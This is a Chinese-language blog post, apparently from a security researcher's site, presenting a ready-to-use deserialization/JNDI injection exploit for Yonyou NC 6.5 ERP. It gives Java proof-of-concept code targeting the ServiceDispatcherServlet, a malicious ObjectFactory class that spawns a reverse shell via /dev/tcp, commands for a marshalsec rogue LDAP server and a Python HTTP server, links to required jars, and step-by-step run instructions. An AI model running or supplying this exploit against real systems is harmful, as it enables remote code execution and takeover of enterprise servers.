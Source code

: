 ```yaml
---
layout: post
title: "用友NC6.5java反序列化"
date: 2021-03-13
wrench: 2021-01-24
author: Bin4xin
toc: true
categories:
    - blog
tags:
    - 反序列化
permalink: /blog/2021/yonyou-nc6.5-java-underser/
---
```


## 零： 用友nc6.5反序列化依赖jar包

### 0x01：攻击java代码

```java
import nc.bs.framework.common.NCLocator;

import java.util.Properties;


public class poc {

    public static void attack(String url, String jndipath) {
        Properties env = new Properties();
        if (!url.startsWith("http")) {
            url = "http://" + url;
        }
        env.put("SERVICEDISPATCH_URL", url + "/ServiceDispatcherServlet");
        NCLocator locator = NCLocator.getInstance(env);
        locator.lookup(jndipath);
    }

    public static void main(String[] args) {
        attack("http://192.168.1.1:81", "ldap://192.168.1.2:1099/remote");
    }
}
```
运行起来主要报`classNotFound`，必需第三方jar包如下：

- ncdepend.jar
- log4j-1.2.15.jar
- log.jar

- 部分依赖jar包在安装完nc6.5系统后，一般在`C://yonyou//home//lib//`目录下，前提需要有nc6.5的安装包；或者下载仓库内的依赖包：
    - *[点击以了解yonyou-nc6.5-lib](https://github.com/Bin4xin/bigger-than-bigger/blob/master/yonyou-nc6.5-lib/README.MD)*
        - 本机运行环境

        ```
        java version "1.8.0_181"
        Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
        Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)

        javac 1.8.0_181
        ```

- 学习教程[*README*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/yonyou-nc6.5-lib/README.MD)
- 下载
  - 单jar包：点击[*ncdepend.jar*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/yonyou-nc6.5-lib/ncdepend.jar)链接 -> Download.
  - 整包[*yonyou-NCv6.5-lib.zip*](https://github.com/Bin4xin/bigger-than-bigger/releases/tag/yonyou-ncv6.5)链接 -> 单击链接下载

```
[anonymous] DEBUG  - Invoke nc.bs.framework.server.RemoteMetaContext.lookup write info to server spend time: 188 
Exception in thread "main" nc.bs.framework.exception.FrameworkIOException: Remote request error
```

### 0x02：远程利用java恶意代码

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.Serializable;
import java.util.Hashtable;

public class remote implements ObjectFactory, Serializable {

    public remote() {
        try{
            java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

### 0x03：使用方法

- jetbrains IDEA ：`file -> New -> Project -> Java`
    - *[点击以了解IDEA运行JAVA项目DEMO](https://blog.csdn.net/oschina_41790905/article/details/79475187)*
    - `src目录 -> New -> Java Class -> poc.java`即可；
    - `Project Structure -> Librabries -> + `添加lib文件夹即可；

- 恶意LDAP：`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.2:8000/#remote" 1099`
    - *[点击以了解marshalsec](https://github.com/mbechler/marshalsec)*
- HTTP SERVER(remote.class)：`python3 -m http.server`

- 填入主方法下`attck url & jndipath` -> `run poc.main()`即可。

- enjoy.

### 0x04：参考链接

- [用友NC反序列化 简单分析](https://blog.sari3l.com/posts/608d18f0/#jwdp)
- [用友nc6.5详细安装过程](https://blog.csdn.net/weixin_38766356/article/details/103983787)

